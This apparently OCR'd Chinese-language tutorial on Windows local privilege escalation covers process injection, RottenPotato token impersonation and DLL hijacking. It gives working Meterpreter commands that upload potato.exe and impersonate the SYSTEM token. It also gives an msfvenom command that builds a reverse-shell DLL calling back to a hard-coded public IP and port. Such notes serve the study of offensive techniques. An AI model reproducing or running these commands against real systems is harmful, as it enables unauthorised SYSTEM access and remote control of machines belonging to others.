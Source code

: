 

### 进程注入提升

#案例4 :Windows2003&10进程注入提升
进程注入提权是本地提权方式的一种较为老的安全技术了，利用的是注入进程的所有
者实现权限共享机制，这类技术主要利用在windows2008之前操作系统上.所以我们
需要学习后续的本地提权更多的手法才能有针对高版本的系统。
pinjector进程注入工具针对-win2008以前操作系统
pexec6432进程注入工具针对-win2008及后操作系统- (佛系)

### RottenPotato (烂土豆)提权

RottenPotato (烂土豆)提权的原理可以简述如下: 
1.欺骗"NT AUTHORITYSYSTEM”账户通过NTLM认证到我们控制的TCP终端。
2.对这个认证过程使用中间人攻击(NTLM重放)，为"NT AUTHORITY\SYSTEM"账户本地协商一个安全令牌。这个过程是通过一系列的Windows API调用实现的。
3.模仿这个令牌。只有具有"模仿安全令牌权限”的账户才能去模仿别人的令牌。一般大多数的服务型账户(IIS、 MSSQL等)有这个权限，大多数用户级的账户没有这个权限。
所以，一般从web拿到的webshell都是IIS服务器权限，是具有这个模仿权限的。测试过程中，我发现使用已经建好的账户(就是上面说的用户级账户)去反弹meterpreter然后再 去执行EXP的时候会失败,但使用菜刀(IIS服务器权限)反弹meterpreter就会成功。

烂土豆比热土豆的优点是:

1. 100%可靠
2. (当时)全版本通杀
3. 立即生效,不用像hot potato那样有时候需要等Windows更新才能使用。

总之，我对这个的理解是通过中间人攻击，将COM (NT\\SYSTEM权限) 在第二部挑战应答过程中认证的区块改成自己的区块获取SYSTEM令牌,然后利用msf的模仿令牌功能模仿SYSTEM令牌。

#### #案例1: Win2012-烂土豆配合令牌窃取提权-web权限

原理:参考上述图片内容，非服务类用户权限无法窃取成功(原理)
过程:上传烂土豆-执行烂土豆-利用窃取模块-窃取SYSTEM-成功

```
upload /root/potato.exe C: \Users\Public
cd C:\\Users\\Public
use incognito
list_tokens -u
execute -cH -f ./potato.exe
list_tokens -u
impersonate_token "NT AUTHORITY\\SYSTEM"
```

#案例2: win2012-DLL劫持提权应用配合MSE-Web权限
原理: windows程序启动的时候需要DLL。如果这些DLL不存在，则可以通过在应用程序要查找的位置放置恶意DLL来提权。通常，windows应 用程序有其预定义好的搜索DLL的路径，它会根据下面的顺序进行搜索:
1、应用程序加载的目录
2、C: \Windows\System32
3、C: \Windowa \System
4、C: \Windows
5、当前工作目录Current working Directory, CWD
6、在PATH环境变量的目录(先系统后用户)
过程:信息收集进程调试-制作dll并上传-替换dll启动应用后成功

```
msfvenom -p windows/meterpreter/reverse_tcp
lhost=101.37.169.46
lport=6677 -f dll >/opt/cuoni.dll
```
